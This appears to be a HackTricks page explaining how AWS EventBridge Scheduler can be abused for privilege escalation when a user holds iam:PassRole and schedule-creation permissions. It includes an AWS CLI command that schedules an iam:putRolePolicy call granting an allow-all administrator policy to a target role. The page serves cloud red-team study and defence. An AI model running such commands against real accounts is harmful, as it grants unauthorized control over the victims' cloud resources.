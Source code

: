 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler can be used for privilege escalation by scheduling calls to various AWS services. By leveraging its ability to invoke services on a scheduled basis, users with sufficient permissions can escalate privileges. Here are some of the key actions EventBridge Scheduler can trigger using templated targets:

* Lambda: lambda:InvokeFunction - Invoke Lambda functions on a schedule.
* CodeBuild: codebuild:StartBuild - Start AWS CodeBuild projects.
* CodePipeline: codepipeline:StartPipelineExecution - Trigger AWS CodePipeline executions.
* ECS: ecs:RunTask - Run ECS tasks.
* EventBridge: events:PutEvents - Put events into EventBridge.
* Inspector: inspector:StartAssessmentRun - Start Amazon Inspector assessments.
* Kinesis: kinesis:PutRecord - Put records into Kinesis streams.
* Firehose: firehose:PutRecord - Put records into Firehose delivery streams.
* SageMaker: sagemaker:StartPipelineExecution - Start SageMaker pipeline executions.
* SNS: sns:Publish - Publish messages to SNS topics.
* SQS: sqs:SendMessage - Send messages to SQS queues.
* Step Functions: states:StartExecution - Start executions of AWS Step Functions.

These are just some of the templated actions EventBridge Scheduler can perform. However, by using universal targets, many other actions across AWS services can be invoked. Universal targets allow for more extensive API operations beyond the templated list.

More info EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Users with `sts:AssumeRole`, `iam:PassRole`, and `scheduler:CreateSchedule or scheduler:UpdateSchedule` permissions can escalate privileges by leveraging the EventBridge Scheduler to invoke services using a role with higher privileges.

With these permissions, an attacker can assume a role with elevated privileges and pass that role to EventBridge Scheduler when creating or updating a schedule. The schedule can be configured to perform any of the actions listed previously, such as invoking Lambda functions, starting ECS tasks, triggering CodePipeline executions, or any operation of the 270 AWS services supported by EventBridge Scheduler. By scheduling these actions, an attacker could abuse higher privileges to perform unauthorized operations across AWS services. \\

For example, they could configure the schedule to invoke a Lambda function which is a templated action:

```bash
aws scheduler create-schedule \
    --name MyLambdaSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
        "RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
    }'
```

In addition to templated service actions, you can use universal targets in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "AdminAccessPolicy", using a role that has "putRolePolicy" policy:

```bash
aws scheduler create-schedule \                                           
    --name GrantAdminToTargetRoleSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{               
        "Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
        "RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
        "Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"                
    }'
```

## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

